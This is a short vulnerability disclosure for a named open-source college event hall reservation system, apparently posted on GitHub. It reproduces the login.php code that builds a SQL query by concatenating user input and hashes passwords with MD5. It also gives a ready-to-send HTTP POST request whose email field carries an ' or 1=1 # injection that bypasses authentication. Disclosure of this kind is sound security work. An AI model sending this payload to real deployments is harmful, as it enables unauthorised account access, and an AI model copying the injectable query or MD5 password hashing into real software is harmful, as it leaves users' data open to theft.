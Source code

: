 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection Auth Bypass login.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /login.php

## Code
```php
  if(isset($_POST['user'])){
                $email=$_POST['email'];
                $password=$_POST['password'];
                $password=md5($password);
                $email=$email.'@sairam.edu.in';
                $sql="SELECT * FROM tbl_user WHERE user_email='$email' AND user_password='$password'";
                $res=mysqli_query($conn,$sql);
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /login.php HTTP/1.1
Host: [REDACTED]
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

email=NoChizPlz%27+or+1%3D1+limit+1+%23&password=NoChizPlz&user=Login
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/f6d9a073-091c-4323-ba54-a2383b7e7126)

